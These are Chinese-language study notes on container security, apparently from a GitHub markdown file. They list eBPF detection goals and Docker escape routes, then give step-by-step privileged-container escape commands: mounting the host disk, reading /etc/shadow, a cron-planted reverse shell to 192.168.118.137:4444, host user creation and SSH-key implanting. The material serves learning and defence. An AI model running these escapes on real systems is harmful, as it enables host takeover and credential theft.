

## 主机和容器异常活动的检测

确保容器运行时安全的关键点：

❏ 降低容器的攻击面，每个容器以最小权限运行，包括容器挂载的文件系统、网络控制、运行命令等。

❏ 确保每个用户对不同的容器拥有合适的权限。

❏ 使用安全容器控制容器之间的访问。当前，Linux的Docker容器技术隔离技术采用Namespace 和 Cgroups 无法阻止提权攻击或打破沙箱的攻击。

---

❏ 使用ebpf跟踪技术自动生成容器访问控制权限。包括：容器对文件的可疑访问，容器对系统的可疑调用，容器之间的可疑互访，检测容器的异常进程，对可疑行为进行取证。例如：

    ❏ 检测容器运行时是否创建其他进程。

    ❏ 检测容器运行时是否存在文件系统读取和写入的异常行为，例如在运行的容器中安装了新软件包或者更新配置。

    ❏ 检测容器运行时是否打开了新的监听端口或者建立意外连接的异常网络活动。

    ❏ 检测容器中用户操作及可疑的shell脚本的执行。

## 容器逃逸

容器逃逸主要分为以下三个部分：

##### 配置不当引起的逃逸 - 主要为

* Docker Remote API 未授权访问
* docker.sock 挂载到容器内部
* docker 高危启动参数
  * privileged 特权模式
  * 挂载敏感目录
  * 相关启动参数存在的安全问题

##### Docker 软件设计引起的逃逸

* Shocker攻击
* runC容器逃逸漏洞(CVE-2019-5736)
* Docker cp 命令(CVE-2019-14271)

##### 内核漏洞引起的逃逸

* 脏牛漏洞（dirtycow-docker-vdso）


##### Docker 容器逃逸典型案例

1、判断是否处于docker容器里

2、配置不当引起的逃逸

* Docker Remote API 未授权访问
* docker.sock 挂载到容器内部
* docker 高危启动参数
  * privileged 特权模式
  * 挂载敏感目录
  * 相关启动参数存在的安全问题

3、Docker 软件设计引起的逃逸

* Shocker攻击
* runC容器逃逸漏洞(CVE-2019-5736)
* Docker cp 命令(CVE-2019-14271)

4、内核漏洞引起的逃逸

* 脏牛漏洞（dirtycow-docker-vdso）


#### 特权容器逃逸

##### 挂载/etc逃逸 - 基于crontab（定时任务机制） 等

crontab：定时任务的守护进程，精确到分，设计秒的我们一般写脚本  -->相当于闹钟
        日志文件:  ll /var/log/cron*
        编辑文件： vim /etc/crontab
        作用：定时备份，实时备份

Linux下的任务调度分为两类，系统任务调度和用户任务调度。
    系统任务调度：系统周期性所要执行的工作，比如写缓存数据到硬盘、日志清理等。
        在/etc/crontab文件，这个就是系统任务调度的配置文件。
    用户任务调度：用户定期要执行的工作，比如用户数据备份、定时邮件提醒等。
        用户可以使用 crontab 工具来定制自己的计划任务。
        在crontab 文件都被保存在/var/spool/cron目录中。其文件名与用户名一致

##### 逃逸具体步骤：

```
sudo docker run -it --privileged ubuntu:20.04 

# 1查看特权级
cat /proc/self/status | grep CapEff

# 查看挂载设备 /dev/sda* Type为Linux
fdisk -l

# 2将宿主机整个文件系统挂载到当前容器的目录下
mkdir /test && mount /dev/sda1 /test

# 3尝试查看shadow文件，确保权限足够
cat /test/etc/shadow

# 4修改 /etc/crontab   执行反弹shell
echo -e '\nSHELL=/bin/bash \nPATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin \nMAILTO=root \n01 * * * * root  cd / && run-parts /etc/cron.hourly \n*/1 *  * * * root  bash -i >& /dev/tcp/192.168.118.137/4444 0>&1' >> /test/etc/crontab 

# 4在远程监听对应端口
nc -lvnp 4444
```

修改 /etc/crontab,添加如下内容(相应IP和端口)

```
SHELL=/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

01 * * * * root  cd / && run-parts /etc/cron.hourly
*/1 *  * * * root  bash -i >& /dev/tcp/192.168.118.137/4444 0>&1
```

##### 一些其他形式的特权容器逃逸手段

###### 通过添加新用户

```bash
# 通过添加新用户
mount /dev/sda1 /mnt
chroot /mnt adduser xxxxxx
```

###### 挂载/root逃逸

挂载/root/.ssh目录到容器内，可以通过此方式逃逸。

* 生成本机的ssh私钥和公钥，命令：ssh-keygen -t rsa
* 把本机的公钥复制到容器内的/root/.ssh/authorized_keys里，可以实现宿主机的免密登陆

###### 挂载cgroup逃逸

特权模式下在容器里执行命令,将cgroup直接以 cgroup类型挂载到容器内，挂载选项为 rdma（远程直接内存访问）并在容器内创建一个子cgroup目录（cgroup_2）,目的是为了创建release_agent文件且触发release_agent执行的cgroup。

```
mkdir /tmp/cgroup
mount -t cgroup -o rdma cgroup /tmp/cgroup 
mkdir /tmp/cgroup/cgroup_2
```

###### 挂载docker.sock实现逃逸

###### 挂载/proc目录实现逃逸

`/proc/sys/kernel/core_pattern `文件是负责进程奔溃时内存数据转储的， **当第一个字符是管道符 `|`时，后面的部分会以命令行的方式进行解析并运行** 。

利用该解析方式，我们可以进行容器逃逸

参考链接：[五种方式教你用特权容器逃逸 | CN-SEC 中文网](https://cn-sec.com/archives/544048.html)

##### 特权容器逃逸总结

特权容器逃逸，最常见的就是通过挂载高危目录到容器中，以达到影响宿主机的目的。



同时也可以很容易想到，就算容器不是特权容器，但如果其挂载了高危目录然后启动(-v)，这也会直接影响到宿主机的安全。

常见的高危目录 ：

```
/var/run/docker.sock
/root
/sys/fs/cgroup 应该是直接基于cgroup的 
/dev/
procfs  
......
```

### 容器里的 insmod.o

自己编译好丢进去 or

挂载linux文件系统之后弄(x)

```
# 行不通 x
apt update
apt-get update
apt-get install module-init-tools
```

## TODO  监测容器行为相关

+ 检测容器运行时是否创建其他进程。
+ 检测容器运行时是否存在文件系统读取和写入的异常行为，例如在运行的容器中安装了新软件包或者更新配置。
+ 检测容器运行时是否打开了新的监听端口或者建立意外连接的异常网络活动。
+ 检测容器中用户操作及可疑的shell脚本的执行。  √

先使用BPFtrace做验证

```
export 
```
